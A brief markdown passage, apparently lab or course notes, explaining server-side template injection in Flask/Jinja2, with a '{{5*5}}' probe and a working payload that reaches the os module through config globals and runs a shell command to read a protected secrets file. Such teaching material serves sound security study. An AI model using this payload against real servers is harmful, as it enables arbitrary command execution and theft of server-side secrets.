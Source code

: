 ### Server Side Template Injection

---

Server side template injection is possible when an attacker injects template directive as user input that can execute arbitrary code on the server.
Example of a vulnerability : 

```py
{{5*5}}
```

Flask payload for Jinja2 : 

```py
{{config.__class__.__init__.__globals__['os'].popen('cat flaskr/protected/burdellsecrets.txt').read()}}
```


